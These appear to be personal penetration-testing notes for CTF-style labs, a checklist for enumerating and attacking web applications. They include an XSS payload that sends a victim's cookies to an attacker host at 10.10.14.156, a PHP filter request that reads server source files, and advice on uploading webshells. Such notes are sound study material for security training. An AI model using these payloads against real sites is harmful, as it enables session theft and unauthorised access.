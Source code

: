 Quick check:
	is there a login?
		try admin, administrator..
		try sqli


What's running:
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

check source for
	links to "hidden" pages like admin-panels
	passwords
	hints
	mail addresses of users and admins/support/privileged users

go to the url for folders used on the site to check for file listings and other files
	especially if they are called files

list possible users and usernames
	validate?
		login form
		registation form

login
	second step of mfa can sometimes be bypassed by just going to a page requiring the access
	

check for IDOR
	numbers
	random ids
	...

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	check common ones
		admin, 
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

PHP filter
	PHP://filter/convert.base64-encode/resource=
	example: `GET /test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1`



webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work


Run scanners:
	`nikto -h http://whatever.thm`
	`whatweb -a 4 http://dailybugle.thm`
	``

https://owasp.org/www-project-web-security-testing-guide/latest/

